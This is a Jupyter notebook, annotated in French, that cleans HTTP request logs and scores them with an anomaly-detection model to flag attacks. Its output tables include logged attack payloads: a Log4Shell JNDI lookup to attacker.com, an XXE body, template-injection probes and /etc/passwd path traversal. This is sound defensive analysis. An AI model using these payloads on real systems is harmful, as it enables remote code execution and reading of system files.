### Lecture et parsing du fichier JSONL de logs HTTP → DataFrame

In [62]:
import json
import sys
import pandas as pd
import numpy as np
import joblib

# ✅ Import featurize_http
sys.path.insert(0, "../ml")
from feature_extraction import featurize_http

path = "../ml/data/http_events.jsonl"
rows = []
with open(path, "r", encoding="utf-8", errors="ignore") as f:
    for line in f:
        line = line.strip()
        if not line:
            continue
        try:
            rows.append(json.loads(line))
        except:
            continue

# DataFrame brut
df_http = pd.DataFrame(rows)
print("📊 Total HTTP events:", len(df_http))

# ---- Nettoyage HTTP ----
BORING_PATHS = {
    "/", "/index.html", "/about", "/contact", "/api/health"
}
STATIC_EXTENSIONS = (
    ".css", ".js", ".png", ".jpg", ".jpeg", ".gif",
    ".svg", ".ico", ".woff", ".woff2", ".ttf"
)
IGNORED_METHODS = {"HEAD", "OPTIONS"}

# Colonnes utiles
for col in ["path", "query", "body", "user_agent", "method"]:
    if col not in df_http.columns:
        df_http[col] = ""
    else:
        df_http[col] = df_http[col].fillna("")

df_http["method"] = df_http["method"].replace("", "GET")

# Filtrage du bruit
df_http = df_http[~df_http["method"].str.upper().isin(IGNORED_METHODS)]
df_http = df_http[~df_http["path"].str.lower().str.endswith(STATIC_EXTENSIONS)]
df_http = df_http[
    ~(
        df_http["path"].str.lower().isin(BORING_PATHS)
        & (df_http["query"].str.strip() == "")
        & (df_http["body"].str.strip() == "")
    )
]

df_http = df_http.reset_index(drop=True)
print("✅ After cleaning HTTP events:", len(df_http))
df_http

📊 Total HTTP events: 3373
✅ After cleaning HTTP events: 2878


,timestamp,source_ip,service,method,path,query,user_agent,content_type,body
0,2026-03-24T21:40:41.376234Z,172.20.0.6,http,GET,/login,,Mozilla/5.0,,
1,2026-03-24T21:40:41.737666Z,172.20.0.6,http,GET,/search,q=test,Safari/537.36,,
2,2026-03-24T21:40:41.938221Z,172.20.0.6,http,POST,/login,,Safari/537.36,,
3,2026-03-24T21:40:42.229676Z,172.20.0.6,http,POST,/login,,Chrome/120.0,,
4,2026-03-24T21:40:42.575777Z,172.20.0.6,http,GET,/login,,Safari/537.36,,
...,...,...,...,...,...,...,...,...,...
2873,2026-03-26T20:46:59.153789Z,172.20.0.1,http,POST,/api/parse,,XXE-Scanner/1.0,application/xml,"<?xml version=""1.0""?><!DOCTYPE foo [<!ENTITY x..."
2874,2026-03-26T20:48:23.385350Z,172.20.0.1,http,GET,/api/user,,${jndi:ldap://attacker.com/exploit},,
2875,2026-03-26T20:49:07.936937Z,172.20.0.1,http,POST,/render,tpl=%7B%7B7*7%7D%7D%7B%7B7*7%7D%7D%7B%7B7*7%7D%7D,ScannerProbe-TemplateEngine-Check-ABCDEFGHIJKL...,application/x-www-form-urlencoded,name=test
2876,2026-03-26T20:49:25.224275Z,172.20.0.1,http,POST,/render,tpl=%7B%7B7*7%7D%7D%7B%7B7*7%7D%7D%7B%7B7*7%7D%7D,ScannerProbe-TemplateEngine-Check-ABCDEFGHIJKL...,application/x-www-form-urlencoded,name=test


### Graphiques HTTP (top paths, top queries)



In [63]:
import matplotlib.pyplot as plt

df_http["path"].value_counts().head(10).plot(kind="bar")
plt.title("Top 10 paths (HTTP)")
plt.xlabel("path")
plt.ylabel("count")
plt.show()

### Top Queries



In [64]:
df_http["query_len"] = df_http["query"].fillna("").astype(str).str.len()

df_http["query_len"].plot(kind="hist", bins=30)
plt.title("Distribution de la longueur des query")
plt.xlabel("query length")
plt.ylabel("count")
plt.show()

### HTTP : scores du modèle

In [65]:
import sys
sys.path.append("../ml")

import joblib
import numpy as np
from feature_extraction import featurize_http

In [66]:
import importlib
import feature_extraction
importlib.reload(feature_extraction)
from feature_extraction import featurize_http

model_http = joblib.load("../ml/model_http.joblib")

# Verification
print("Modele attend :", model_http.n_features_in_, "features")
print("featurize_http produit :", len(featurize_http(df_http.iloc[0].to_dict())), "features")

assert model_http.n_features_in_ == len(featurize_http(df_http.iloc[0].to_dict())), \
    "Incoherence features — relance le kernel Jupyter"

X_http = np.array([
    featurize_http(row.to_dict())
    for _, row in df_http.iterrows()
], dtype=float)

print("X_http shape:", X_http.shape)  # doit afficher (n, 16)

scores_http = model_http.score_samples(X_http)
preds_http  = model_http.predict(X_http)

df_http["ml_score"] = scores_http
df_http["ml_pred"]  = preds_http

df_http.head()

Modele attend : 16 features
featurize_http produit : 16 features
X_http shape: (2878, 16)


,timestamp,source_ip,service,method,path,query,user_agent,content_type,body,query_len,ml_score,ml_pred
0,2026-03-24T21:40:41.376234Z,172.20.0.6,http,GET,/login,,Mozilla/5.0,,,0,-0.482861,1
1,2026-03-24T21:40:41.737666Z,172.20.0.6,http,GET,/search,q=test,Safari/537.36,,,6,-0.466107,1
2,2026-03-24T21:40:41.938221Z,172.20.0.6,http,POST,/login,,Safari/537.36,,,0,-0.503040,1
3,2026-03-24T21:40:42.229676Z,172.20.0.6,http,POST,/login,,Chrome/120.0,,,0,-0.502617,1
4,2026-03-24T21:40:42.575777Z,172.20.0.6,http,GET,/login,,Safari/537.36,,,0,-0.482813,1


### Visualisation la distribution des scores HTTP



In [67]:
import matplotlib.pyplot as plt

plt.figure(figsize=(8,5))
plt.hist(df_http["ml_score"], bins=40)
plt.title("Distribution des scores ML - HTTP")
plt.xlabel("score_samples")
plt.ylabel("count")
plt.show()

### les anomalies HTTP les plus suspectes

In [68]:
anomalies_http = df_http[df_http["ml_pred"] == -1].copy()
anomalies_http = anomalies_http.sort_values("ml_score")

anomalies_http[["path", "query", "user_agent", "ml_score"]].head(10)

,path,query,user_agent,ml_score
2814,/../../../etc/passwd,,Nuclei - https://github.com/projectdiscovery/n...,-0.675514
2254,/../../../etc/passwd,,Nuclei - https://github.com/projectdiscovery/n...,-0.675514
2249,/../../../etc/passwd,,python-requests/2.31.0,-0.673170
2641,/../../../etc/passwd,,masscan/1.3,-0.672722
2173,/../../../etc/passwd,,curl/8.4.0,-0.672722
1734,/../../../etc/passwd,,masscan/1.3,-0.672722
2795,/../../../etc/passwd,,Go-http-client/1.1,-0.671475
2284,/../../../etc/passwd,,nikto/2.5.0,-0.671257
1626,/../../../etc/passwd,,Mozilla/5.0 (Windows NT 10.0; Win64; x64) Appl...,-0.670964
2235,/../../../etc/passwd,,Mozilla/5.0 (Windows NT 10.0; Win64; x64) Appl...,-0.670964


### Taux d'anomalie HTTP

In [69]:
(len(df_http[df_http["ml_pred"] == -1]) / len(df_http)) * 100

14.906184850590687

In [70]:
print("HTTP anomalies:", round((df_http["ml_pred"] == -1).mean() * 100, 2), "%")

HTTP anomalies: 14.91 %
